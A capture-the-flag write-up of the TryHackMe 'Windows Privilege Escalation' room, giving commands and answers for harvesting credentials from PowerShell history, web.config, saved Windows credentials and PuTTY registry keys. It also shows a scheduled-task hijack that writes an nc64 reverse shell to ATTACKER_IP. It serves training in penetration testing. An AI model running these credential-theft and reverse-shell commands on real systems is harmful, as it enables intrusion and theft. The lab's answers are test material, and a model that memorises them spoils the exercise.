


# Try Hack Me: Windows Privilege Escalation Complete Write-up
I'm writing my own write-up on the lab named [Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20) from [tryhackme](https://tryhackme.com) which is pretty tough to solve and fun to learn. Let's start! 


## Task 1: Introduction
During a penetration test, you will often have access to some Windows hosts with an unprivileged user. Unprivileged users will hold limited access, including their files and folders only, and have no means to perform administrative tasks on the host, preventing you from having complete control over your target.

This room covers fundamental techniques that attackers can use to elevate privileges in a Windows environment, allowing you to use any initial unprivileged foothold on a host to escalate to an administrator account, where possible.

If you want to brush up on your skills first, you can have a look through the [Windows Fundamentals Module](https://tryhackme.com/module/windows-fundamentals) or the [Hacking Windows Module](https://tryhackme.com/module/hacking-windows-1).

### Q: Click and continue learning!
#### Answer: No answer needed

## Task 2: Windows Privilege Escalation
Privilege escalation involves leveraging existing access to a system to gain higher privileges, often aiming for administrative control. This can be done by exploiting weaknesses such as misconfigurations, excessive privileges, vulnerable software, or missing security patches.

Windows users are categorized as:
- Administrators: Have full system control.
- Standard Users: Have limited access and cannot make major changes.

Additionally, special built-in accounts exist:
- SYSTEM: Higher privileges than administrators.
- Local Service: Runs services with minimal privileges.
- Network Service: Runs services using network authentication.

### Q.1: Users that can change system configurations are part of which group?
#### Answer: Administrators
### Q.2: The SYSTEM account has more privileges than the Administrator user (aye/nay)
#### Answer: aye

## Task 3: Harvesting Passwords from Usual Spots
1. Unattended Windows Installations
  Administrators often leave credentials in configuration files used for automated installations:
  - C:\Unattend.xml
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\system32\sysprep.inf
2. PowerShell History
  PowerShell logs executed commands, including those containing passwords. Retrieve them via:
  ```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```
3. Saved Windows Credentials
   Windows allows users to store credentials, which can be listed with: ```cmdkey /list```
   Use stored credentials with: ```runas /savecred /user:admin cmd.exe```
4. IIS Configuration Files
  Web server configurations may contain stored passwords in web.config:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
  Search for database credentials: ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```
5. PuTTY Stored Credentials
  PuTTY stores proxy credentials in the registry. Retrieve them with: ```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
### Q.1: A password for the julia.jones user has been left on the Powershell history. What is the password?

To read the Powershell history enter the following command: ```type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```


There on line 6 we find her password.
#### Answer: ZuperCkretPa5z

### Q.2: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
According to the task, there are two possible locations where we can find these web.config files:
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
The first one does not exist on the system, but if we run the command with the second location we find a connectionString:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

In the connectionString we find this including the password:
**add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB"**
#### Answer: 098n0x35skjD3

### Q.3: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.
The instructions tell use exactly what to do. Start with cmdkey to see for which users we have saved credentials:```cmdkey /list```


Sure enough, we have a saved credential for mike. Now run the following command to run cmd with his credentials: 
```runas /savecred /user:mike.katz cmd.exe```
It will open **cmd.exe**. In cmd, search for a file named **flag.txt** like this: ```dir C:\flag.txt /s /p``` 

Change to that directory with: ```cd C:\Users\mike.katz\Desktop```, then list files in that directory: ```dir``` and read the text file following command: ```type flag.txt```


#### Answer: THM{WHAT_IS_MY_PASSWORD}

### Q.4: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?
This one is also literally described in the task. Run the following command to search under the following registry key for ProxyPassword:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


#### Answer: CoolPass2021

## Task 4: Other Quick Wins
This task is all about abusing Task Scheduler tasks that have been configured to run an executable file that we can change to run a netcat reverse shell.

Privilege escalation can be facilitated through misconfigurations, such as those found in scheduled tasks or Windows installer files. These techniques are often more relevant in Capture The Flag (CTF) events than real penetration testing engagements.
1. Scheduled Tasks:
  - Misconfigured Task: A scheduled task may run a binary you can modify. You can list tasks with schtasks /query and check the file permissions using icacls.
  - Privilege Escalation: If a scheduled task’s executable is accessible, modify it to execute a reverse shell. For example, replace the task’s binary with a command to spawn a reverse shell using nc64.exe.
  - Triggering the Task: Once the task is modified, use schtasks /run to manually execute it and get a reverse shell with the user privileges of the scheduled task.
2. AlwaysInstallElevated:
  - Windows Installer: MSI files can be set to run with elevated privileges if registry keys are configured. This allows unprivileged users to run an MSI that executes with administrator rights.
  - Registry Check: Use reg query to check if the necessary registry keys are set. If they are, generate a malicious MSI file using msfvenom and execute it with msiexec to get a reverse shell.
### Q.1: What is the taskusr1 flag?
Let’s start by getting info on the scheduled task called “vulntask”.
```schtasks /query /tn vulntask /fo list /v```


As discussed in the task description, we can edit the file if have the correct permissions. To check these we run the following command: ```icacls c:\tasks\schtask.bat```

We have correct permission

Now all we need to do is echo the nc64 command to the schtask.bat file to overwrite its content. Remember to change the ip.
```echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat```

And setup a listener on your attacker machine: ```nc -lvnp 4444```

Finally, run the scheduled task with: ```schtasks /run /tn vulntask```

Running the scheduled task

And yes, we got a connection:

We got a connection

And find the flag:

Another flag in the house
#### Answer: THM{TASK_COMPLETED}
